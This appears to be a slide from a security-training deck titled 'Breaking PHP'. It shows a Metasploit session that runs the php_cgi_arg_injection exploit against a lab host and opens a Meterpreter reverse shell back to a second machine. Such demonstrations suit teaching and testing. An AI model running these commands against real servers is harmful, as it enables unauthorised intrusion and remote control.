

# Breaking PHP
(Within Metasploit Console)
msf5 > use exploit/multi/http/php_cgi_arg_injection
msf5 exploit(multi/http/php_cgi_arg_injection) >
msf5 exploit(multi/http/php_cgi_arg_injection) > set RHOST 172.16.63.132
RHOST => 172.16.63.132
msf5 exploit(multi/http/php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 172.16.63.133:4444
[*] Sending stage (38247 bytes) to 172.16.63.132
[*] Meterpreter session 1 opened (172.16.63.133:4444 -> 172.16.63.132:33951) at 2019-11-22 05:17:17 +0000

meterpreter >